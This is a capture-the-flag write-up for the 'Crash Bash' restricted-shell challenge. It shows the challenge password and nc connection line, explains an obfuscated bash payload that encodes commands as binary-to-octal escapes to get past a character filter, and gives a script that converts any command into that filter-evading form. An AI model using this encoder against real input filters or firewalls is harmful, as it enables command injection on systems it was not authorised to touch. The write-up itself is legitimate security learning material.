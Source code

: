 # Crash Bash

## Description

Can you crash the bash?

The password is B4sh_br0TH3rs

Connect using nc ch.hackyeaster.com 2303

Note: The service is restarted every hour at x:00.

<img width="351" alt="image" src="https://user-images.githubusercontent.com/2973929/234140051-1756aaaf-0755-4869-9753-3242fb4f15db.png">

# Solution 1

The challenge is basically a limited shell that will filter almost everything you try, including letters, `.` (dot) and a lot of other things.
Luckily, just a few days before a friend showed me a WAF bypass he found using bash, that I will go through quickly:

```
${0}<<<$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
```
This is just a `ls` command.
Breaking it into parts:
- `${0}` in your terminal will mean the shell you're in, in this case, `bash`
- `<<<` indicates you're passing a [Here String](https://tldp.org/LDP/abs/html/x17837.html) to something.
- `$(( ... ))` is the bash calculator
- `1<<1` is a [Shift operation](https://www.interviewcake.com/concept/java/bit-shift) that results in `2`
- `10011010` is decimal `154` represented in binary. When preceded with a `\`, most shells will take it as octal. \154 = `l`
- `10100011` is decimal `163` represented in binary. When preceded with a `\`, most shells will take it as octal. \163 = `s`

So in steps what we've got:
`bash<<<$\'\\$((2#10011010))\\$((2#10100011))\'`

then:
`bash<<<$\'\\154\\163\'`

then:
`bash<<<$\'ls'`

Basically it's a bypass that uses a very strict and small charset. My mind went instantly there.
After a few minutes trying to figure out how to add spaces to that bypass, i've come up with this converter:

```bash
string=$*
string=$(echo -n "$string" | xxd -p | tr -d '\n')
echo "string: $string"
str='${0}<<<{$\'"'"
while read -n2 char; do
        (( ${#char} != 2 )) && continue
        [ "$char" == "20" ] && { str+="\\',$\\'"; continue; }
        octal=$(printf %o "0x$char")
        bin=$(echo "obase=2; $octal" | bc)
        str+="\\\\\$((\$((1<<1))#$bin))"

done <<< "$string"
str+='\'"',}"
echo $str
```